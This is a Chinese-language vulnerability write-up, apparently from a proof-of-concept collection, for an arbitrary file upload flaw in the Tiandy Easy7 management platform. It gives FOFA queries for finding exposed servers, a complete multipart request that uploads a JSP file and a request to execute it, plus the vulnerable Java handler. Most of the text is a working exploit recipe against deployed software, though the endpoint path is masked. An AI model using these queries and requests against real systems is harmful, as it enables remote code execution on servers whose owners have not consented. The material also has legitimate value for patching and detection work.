



# 天地伟业Easy7-uploadCheckImg存在任意文件上传漏洞

天地伟业Easy7综合管理平台

fofa规则


 product="Tiandy-Easy7"

或者

body="./images/ico/Easy7_logo_transparent.png"|| body="/Easy7/index.html"

```

```



测试环境

http://xxxx:7501/imagelive/data1.zip

第 1 步：上传文件
POST

```
POST /Easy7/xxxx HTTP/1.1
Host: lo:7501
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 OPR/48.0.2685.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
X-Forwarded-For: xxx.xxx.xxx.xxx
boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Connection:close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvTtzURYgaFUw7hA4
Content-Length: 204

------WebKitFormBoundaryvTtzURYgaFUw7hA4
Content-Disposition: form-data; name="file";filename="test111.jsp"
Content-Type:image/jpeg

<%out.print(222*222);%>

------WebKitFormBoundaryvTtzURYgaFUw7hA4--
```

第 2 步：访问上传的文件名
GET /imagelive/test111.jsp





查看代码，发现如果输入的有filename，那么就不用随机filename文件。

同时通过前端获取了上传路径。


```
CLS_VO_File 是一个javabean file库，仅仅有set get。
```

```java
@RequestMapping({"/uploadCheckImg"})
public void uploadCheckImg(HttpServletRequest request, HttpServletResponse response, CLS_VO_File voFile) throws Exception {
    CLS_VO_Result result = new CLS_VO_Result();
    PrintWriter out = response.getWriter();
    String fileName = voFile.getFileName();
    if (fileName == null) {
        fileName = UUID.randomUUID().toString();
        voFile.setFileName(fileName);
    }

    boolean isMultipart = ServletFileUpload.isMultipartContent(request);
    if (!isMultipart) {
        result.setRet(-7);
        out.print("<html><body><textarea>" + JSONObject.fromObject(result) + "</textarea></body></html>");
    } else {
        FileItemFactory factory = new DiskFileItemFactory();
        ServletFileUpload upload = new ServletFileUpload(factory);
        List<FileItem> items = null;

        try {
            items = upload.parseRequest(request);
        } catch (FileUploadException e) {
            result.setRet(-7);
            out.print("<html><body><textarea>" + JSONObject.fromObject(result) + "</textarea></body></html>");
            e.printStackTrace();
            return;
        }

        if (items == null) {
            result.setRet(-7);
            out.print("<html><body><textarea>" + JSONObject.fromObject(result) + "</textarea></body></html>");
        } else {
            File realFilePath = new File(CLS_Inquest_Type.PATHIMAGE + voFile.getUploadPicturePath());
            if (!realFilePath.exists() && !realFilePath.isDirectory()) {
                realFilePath.mkdirs();
            }

            String newPath = "";
            Long size = null;

            for(FileItem fileItem : items) {
                size = fileItem.getSize();
                if (!fileItem.isFormField()) {
                    newPath = CLS_Inquest_Type.PATHIMAGE + voFile.getUploadPicturePath() + fileName;
                    File file = new File(newPath);

                    try {
                        fileItem.write(file);
                    } catch (Exception e) {
                        result.setRet(-7);
                        out.print("<html><body><textarea>" + JSONObject.fromObject(result) + "</textarea></body></html>");
                        e.printStackTrace();
                        return;
                    }
                }
            }

            voFile.setFileSize(size);
            result.setRet(0);
            result.setContent(voFile);
            out.print("<html><body><textarea>" + JSONObject.fromObject(result) + "</textarea></body></html>");
        }
    }
```


 